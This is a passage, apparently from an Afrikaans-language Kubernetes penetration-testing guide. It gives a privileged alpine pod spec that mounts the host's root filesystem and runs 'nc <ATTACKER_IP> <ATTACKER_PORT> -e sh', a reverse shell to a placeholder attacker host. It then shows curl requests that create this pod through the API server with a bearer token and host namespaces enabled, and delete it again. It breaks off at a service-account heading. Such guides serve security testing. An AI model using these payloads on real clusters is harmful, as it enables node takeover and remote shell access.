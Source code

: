```yaml
image: alpine
securityContext:
privileged: true
volumeMounts:
- mountPath: /host
name: noderoot
command: [ "/bin/sh", "-c", "--" ]
args: [ "nc <ATTACKER_IP> <ATTACKER_PORT> -e sh" ]
#nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
volumes:
- name: noderoot
hostPath:
path: /
```
Skep die pod met curl:
```bash
CONTROL_PLANE_HOST=""
TOKEN=""

curl --path-as-is -i -s -k -X $'POST' \
-H "Host: $CONTROL_PLANE_HOST" \
-H "Authorization: Bearer $TOKEN" \
-H $'Accept: application/json' \
-H $'Content-Type: application/json' \
-H $'User-Agent: kubectl/v1.32.0 (linux/amd64) kubernetes/70d3cc9' \
-H $'Content-Length: 478' \
-H $'Accept-Encoding: gzip, deflate, br' \
--data-binary $'{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"labels\":{\"app\":\"pentest\"},\"name\":\"everything-allowed-exec-pod\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"args\":[\"nc <ATTACKER_IP> <ATTACKER_PORT> -e sh\"],\"command\":[\"/bin/sh\",\"-c\",\"--\"],\"image\":\"alpine\",\"name\":\"everything-allowed-pod\",\"securityContext\":{\"privileged\":true},\"volumeMounts\":[{\"mountPath\":\"/host\",\"name\":\"noderoot\"}]}],\"hostIPC\":true,\"hostNetwork\":true,\"hostPID\":true,\"volumes\":[{\"hostPath\":{\"path\":\"/\"},\"name\":\"noderoot\"}]}}\x0a' \
"https://$CONTROL_PLANE_HOST/api/v1/namespaces/default/pods?fieldManager=kubectl-client-side-apply&fieldValidation=Strict"
```
### Verwyder 'n pod

Verwyder 'n pod met curl:
```bash
CONTROL_PLANE_HOST=""
TOKEN=""
POD_NAME="everything-allowed-exec-pod"

curl --path-as-is -i -s -k -X $'DELETE' \
-H "Host: $CONTROL_PLANE_HOST" \
-H "Authorization: Bearer $TOKEN" \
-H $'User-Agent: kubectl/v1.32.0 (linux/amd64) kubernetes/70d3cc9' \
-H $'Accept: application/json' \
-H $'Content-Type: application/json' \
-H $'Content-Length: 35' \
-H $'Accept-Encoding: gzip, deflate, br' \
--data-binary $'{\"propagationPolicy\":\"Background\"}\x0a' \
"https://$CONTROL_PLANE_HOST/api/v1/namespaces/default/pods/$POD_NAME"
```
### Skep 'n Diensrekening
```bash
CONTROL_PLANE_HOST=""
TOKEN=""
NAMESPACE="default"


```